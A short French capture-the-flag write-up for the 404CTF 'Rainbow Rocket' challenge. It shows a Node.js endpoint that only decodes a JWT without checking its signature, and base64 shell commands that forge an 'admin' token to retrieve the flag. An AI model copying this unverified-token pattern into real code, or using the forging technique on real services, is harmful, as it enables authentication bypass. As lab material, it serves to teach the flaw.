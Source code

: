 Dans `backend/controllers/authControllers.js` on peut voir la logique des différent endpoint dont `/flag`

```js
const flag = (req, res) => {
  const authHeader = req.headers.authorization;
  if (!authHeader) return res.status(401).json({ error: 'Unauthorized' });

  const token = authHeader.split(' ')[1];
  try {
    const decoded = jwt.decode(token);
    if (decoded?.username === 'admin') {
      return res.json({ flag: process.env.FLAG });
    } else {
      return res.status(403).json({ error: 'Forbidden' });
    }
  } catch (err) {
    return res.status(400).json({ error: 'Invalid token' });
  }
};
```

Dans cette fonction, le server recupère notre JWT depuis le header `Authorization` mais ne perform qu'un simple decode de celui ci, rendant la signature complètement obsolète

il suffit donc d'intercepter la requete vers le endpoint `https://rainbow-rocket.404ctf.fr/api/flag` et d'en changer le contenu

```bash
Rainbow Rocket echo -n 'eyJ1c2VybmFtZSI6ImpvaG4iLCJpYXQiOjE3NDc4MjczODl9' | base64 -d
{"username":"john","iat":1747827389}                                                                                                                                         
➜  Rainbow Rocket echo -n '{"username":"admin","iat":1747827389}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzQ3ODI3Mzg5fQ==
```

et de l'inserer à la place du vrai 

et hop ! Le flag

![burpsuite-api/flag](/img/)

